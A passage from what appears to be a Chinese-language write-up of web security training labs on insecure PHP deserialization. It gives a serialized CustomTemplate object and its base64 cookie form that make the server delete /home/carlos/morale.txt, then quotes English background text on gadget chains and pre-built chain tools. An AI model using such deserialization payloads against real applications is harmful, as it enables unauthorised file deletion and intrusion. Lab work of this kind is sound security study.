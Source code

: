 ```
O:14:"CustomTemplate":2:{s:34:"CustomTemplatetemplate_file_path";s:23:"/home/carlos/morale.txt";s:30:"CustomTemplatelock_file_path";s:23:"/home/carlos/morale.txt";}
```

这里 php版本不同生成的不一样，官网解为

```
O:14:"CustomTemplate":2:{s:18:"template_file_path";s:23:"/home/carlos/morale.txt";s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

接下来操作与上面几关类似，base64 编码 poc 替换掉 原来的 cookie 

```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTg6InRlbXBsYXRlX2ZpbGVfcGF0aCI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
```

## Lab5

### 前置

#### Gadget chains

A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal. An individual gadget may not directly do anything harmful with user input. However, the attacker's goal might simply be to invoke a method that will pass their input into another gadget. By chaining multiple gadgets together in this way, an attacker can potentially pass their input into a dangerous "sink gadget", where it can cause maximum damage.

It is important to understand that, unlike some other types of exploit, a gadget chain is not a payload of chained methods constructed by the attacker. All of the code already exists on the website. The only thing the attacker controls is the data that is passed into the gadget chain. This is typically done using a magic method that is invoked during deserialization, sometimes known as a "kick-off gadget".

In the wild, many insecure deserialization vulnerabilities will only be exploitable through the use of gadget chains. This can sometimes be a simple one or two-step chain, but constructing high-severity attacks will likely require a more elaborate sequence of object instantiations and method invocations. Therefore, being able to construct gadget chains is one of the key aspects of successfully exploiting insecure deserialization.

##### Working with pre-built gadget chains

Manually identifying gadget chains can be a fairly arduous process, and is almost impossible without source code access. Fortunately, there are a few options for working with pre-built gadget chains that you can try first.

There are several tools available that provide a range of pre-discovered chains that have been successfully exploited on other websites. Even if you don't have access to the source code, you can use these tools to both identify and exploit insecure deserialization vulnerabilities with relatively little effort. This approach is made possible due to the widespread use of libraries that contain exploitable gadget chains. For example, if a gadget chain in Java's Apache Commons Collections library can be exploited on one website, any other website that implements this library may also be exploitable using the same chain.
